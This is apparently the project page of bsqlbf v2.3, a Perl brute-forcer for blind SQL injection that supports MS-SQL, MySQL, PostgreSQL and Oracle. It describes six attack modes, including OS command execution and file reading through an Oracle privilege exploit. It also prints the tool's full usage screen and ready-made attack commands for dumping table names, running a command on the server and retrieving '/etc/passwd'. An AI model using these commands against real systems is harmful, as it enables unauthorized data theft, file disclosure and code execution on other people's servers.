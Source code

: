 # Introduction #

This is a modified version of 'bsqlbfv1.2-th.pl'. This perl script allows extraction of data from Blind SQL Injections. It accepts custom SQL queries as a command line  parameter and it works for both integer and string based injections. **Databases supported:**

**0. MS-SQL**

**1. MySQL**

**2. PostgreSQL**

**3. Oracle**


The tool supports 6 attack modes(-type switch):-

---

**Type 0: Blind SQL Injection based on true and false conditions returned by back-end server**

**Type 1: Blind SQL Injection based on true and error(e.g syntax error) returned by back-end server.**

**Type 2: Blind SQL Injection in "order by" and "group by".**

**Type 3: extracting data with SYS privileges (ORACLE dbms\_export\_extension exploit)**

**Type 4: is O.S code execution (ORACLE dbms\_export\_extension exploit)**

**Type 5: is reading files (ORACLE dbms\_export\_extension exploit, based on java)**


---

For Type 4(O.S code execution) the following methods are supported:

**-stype:        How you want to execute command:**

> SType 0 (default) is based on java..will NOT work against XE.

> SType 1 is against oracle 9 with plsql\_native\_make\_utility.

> SType 2 is against oracle 10 with dbms\_scheduler.


---


**Usage example**:

$./bsqlbf-v2.pl -url http://192.168.1.1/injection_string_post/1.asp?p=1 -method post -match true -database 0 -sql "select top 1 name from sysobjects where xtype='U'"

./bsqlbf-v2.3.pl -url http://192.168.1.1/injection_string_post/1.jsp?p=1 -type 4 -match "true" -cmd "ping notsosecure.com"

---

**User Interface:**
<pre>ubuntu@ubuntu:~$ ./bsqlbf-v2-3.pl<br>
<br>
// Blind SQL injection brute forcer \\<br>
//originally written by...aramosf@514.es  \\<br>
<br>
// mofified by sid-at-notsosecure.com \\<br>
// http://www.notsosecure.com \\<br>
---------------------usage:-------------------------------------------<br>
<br>
Integer based Injection-->./bsqlbf-v2-3.pl - url http://www.host.com/path/script.php?foo=1000 (options)<br>
<br>
String Based Injection-->./bsqlbf-v2-3.pl - url http://www.host.com/path/script.php?foo=bar' (options)<br>
<br>
------------------------------------options:--------------------------<br>
-sql:          valid SQL syntax to get; version(), database(),<br>
(select  table_name from inforamtion_schema.tables limit 1 offset 0)<br>
-get:          If MySQL user is root, supply word readable file name<br>
-blind:        parameter to inject sql. Default is last value of url<br>
-match:        *RECOMMENDED* string to match in valid query, Default is auto<br>
-start:        if you know the beginning of the string, use it.<br>
-length:       maximum length of value. Default is 32.<br>
-time:         timer options:<br>
0:      dont wait. Default option.<br>
1:      wait 15 seconds<br>
2:      wait 5 minutes<br>
<br>
-type:         Type of injection:<br>
0:      Type 0 (default) is blind injection based on True and False responses<br>
1:      Type 1 is blind injection based on True and Error responses<br>
2:      Type 2 is injection in order by and group by<br>
3:      Type 3 !!New!! is extracting data with SYS privileges (ORACLE dbms_export_extension exploit)<br>
4:      Type 4 !!New!! is O.S code execution (ORACLE dbms_export_extension exploit)<br>
5:      Type 5 !!New!! is reading files (ORACLE dbms_export_extension exploit, based on java)<br>
<br>
-file: File to read (default C:\boot.ini)<br>
<br>
-stype:        How you want to execute command:<br>
0:      SType 0 (default) is based on java..will NOT work against XE<br>
1:      SType 1 is against oracle 9 with plsql_native_make_utility<br>
2:      SType 2 is against oracle 10 with dbms_scheduler<br>
-database:     Backend database:<br>
0:      MS-SQL (Default)<br>
1:      MYSQL<br>
2:      POSTGRES<br>
3:      ORACLE<br>
-rtime:        wait random seconds, for example: "10-20".<br>
-method:       http method to use; get or post. Default is GET.<br>
-cmd:          command to execute(type 4 only). Default is "ping 127.0.0.1."<br>
-uagent:       http UserAgent header to use. Default is bsqlbf 2.3<br>
-ruagent:      file with random http UserAgent header to use.<br>
-cookie:       http cookie header to use<br>
-rproxy:       use random http proxy from file list.<br>
-proxy:        use proxy http. Syntax -proxy=http://proxy:port/<br>
-proxy_user:   proxy http user<br>
-proxy_pass:   proxy http password<br>
<br>
---------------------------- examples:-------------------------------<br>
bash# ./bsqlbf-v2-3.pl -url http://www.somehost.com/blah.php?u=5 -blind u -sql "select table_name from imformation_schema.tables limit 1 offset 0" -database 1 -type 1<br>
<br>
bash# ./bsqlbf-v2-3.pl -url http://www.buggy.com/bug.php?r=514&p=foo' -method post -get "/etc/passwd" -match "foo"<br>
</pre>